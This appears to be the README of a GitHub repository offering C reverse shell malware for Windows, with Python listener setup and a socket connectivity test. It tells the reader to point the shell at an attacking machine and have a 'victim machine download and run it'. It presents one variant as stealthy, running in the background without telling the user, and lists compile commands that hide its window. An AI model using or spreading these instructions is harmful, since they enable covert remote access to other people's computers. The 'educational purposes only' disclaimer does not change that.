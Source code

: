 # Simple-Reverse-Shell

## Overview
This repo contains code for a simple reverse shell malware written in C. Anything in this repo is strictly for educational purposes only. <strong> Using this code for illegal purposes is punishable by law. </strong>

## How it works
1. Make sure your attacking machine and victim machine are able to communicate with each other via sockets (see [Prerequisites and Preliminaries](#section-1)).
2. Choose the reverse shell you want to use, change its `server_ip` to the IP address of your attacking machine, compile it, and have your victim machine download and run it.
3. Run the Python server code.
4. See the magic happen.

## Reverse Shell Kinds
If you check the files in this repo, you will notice that there are actually two reverse shell codes present:
* `rev_shell.c` - A very basic proof of concept for a reverse shell. When run on the victim machine, your attacking machine will have remote access to its files. However, you still need to run this on the command line.
* `actual_rev_shell.c` - The closest I could get to an actual reverse shell malware. It's stealthier and more optimized. Instead of running it on the command line, you simply open it from file explorer, and it will start running in the background without telling the user anything.

## Important Commands
* To compile `rev_shell.c`: `g++ rev_shell.c -o <output_filename>.exe -lws2_32`
* To compile `actual_rev_shell.c` : `g++ actual_rev_shell.c -o <output_filename>.exe -lws2_32 -mwindows`

<br/>

# <a name="section-1"></a> Prerequsites and Preliminaries
1. Make sure Python 3 is installed in your machine.
2. Make sure the environment for C/C++ development is already set up on your machine. The C/C++ code in this repo is build for Windows machines, so if that's the OS you are using, follow the guide [here](https://code.visualstudio.com/docs/cpp/config-mingw?fbclid=IwY2xjawG6AfdleHRuA2FlbQIxMAABHSO4WPA2xtDaTKrFsBsA-wPPEC2UcH2cfyFbi2WN0b8scKeCweYNZqBKvw_aem_VmqdFcg02qeJubMOo6dONQ).
3. Open a terminal and run the Python server. You should see this on your terminal:
```
PS C:\Path\To\Simple-Reverse-Shell> python server.py

Socket created.
Socket binded to 8080

Socket is listening...
```
4. Then, on a separate terminal, compile `socket_client.c` using the command `g++ socket_client.c -o sc.exe -lws2_32` and run it. Your second terminal should look like this:
```
PS C:\Path\To\Simple-Reverse-Shell> g++ socket_client.c -o sc.exe -lws2_32
PS C:\Path\To\Simple-Reverse-Shell> ./sc.exe
Sending hello message from the C client to the server... 
Hello message sent
Client socket closed.
```
After running that code, go back to the terminal running your Python server. It should now looke like this:
```
PS C:\Path\To\Simple-Reverse-Shell> python server.py

Socket created.
Socket binded to 8080

Socket is listening...
Got connection from reverse shell in  ('127.0.0.1', 54203)
(Reverse Shell) Hello from my C client!
>
```
5. Press Ctrl+C to terminate your Python server.

Of course, the examples shown above are only if you are running both the socket client and socket server in the same machine, hence the IP 127.0.0.1. If you want to try socket communication over two different machines, (like running the server in one laptop and running the client in another), just change the `server_ip` variable in `socket_client.c` to the IP address of the computer you are hosting your sever in.
```
const char* server_ip = "127.0.0.1"; // change this to your server machine's IP address
```
If you get the results shown above, then your machines are able to comminicate with each other via sockets. Now you may start playing with the reverse shell codes.